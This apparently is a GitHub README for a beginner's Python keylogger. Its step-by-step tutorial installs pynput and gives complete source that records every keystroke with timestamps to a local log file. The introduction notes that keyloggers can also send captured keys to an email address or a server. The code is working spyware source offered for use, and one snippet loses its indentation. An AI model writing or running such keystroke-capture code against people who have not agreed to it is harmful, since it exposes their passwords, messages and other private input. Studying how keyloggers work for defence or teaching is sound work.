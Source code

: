 # Basic-Keylogger-with-Python
A keylogger program’s basic functionality is to monitor keystrokes continuously and then deliver those keystrokes to a specific location that can be either an email, server, or stored locally in the system.


##Step 1: To create our keylogger, we will use a Python library named pynput. With this Python library, you can fully control and monitor keyboard and mouse inputs.
Currently, it supports mouse and keyboard input devices and has the following sub-packages:
pynput.mouse – This package includes all the classes to control and monitor a mouse or trackpad.
pynput.keyboard – This package contains all the classes to work with the keyboard.
Install the pynput library using the pip install pynputcommand.


##Step 2: Now that we have installed the required Python library, let’s import all the required packages.
from pynput.keyboard import Key, Listener
import logging


##Step 3: In this step, we will specify the path where will the log file will be stored. This log file will include all the monitored keystrokes in the format specified.
log_dir = r"C:/users/himanshu/" 
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
Now, we will call the on_press() function, which takes keys as parameters.

def on_press(key):
   logging.info(str(key))


##Step 4: In this final step, we will create Listener instance and define the on_press() method in it and join it with the main program thread.

with Listener(on_press=on_press) as listener:
listener.join()
After completing all these steps, the final program should look like this and you can execute this script.

import pynput
from pynput.keyboard import Key, Listener
import logging
log_dir = r"C:/users/abiyath/"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
def on_press(key):
   logging.info(str(key))
with Listener(on_press=on_press) as listener:
    listener.join()
    
##Step 5: Now, to check the output of our keylogger program type some random keys and open your log file.

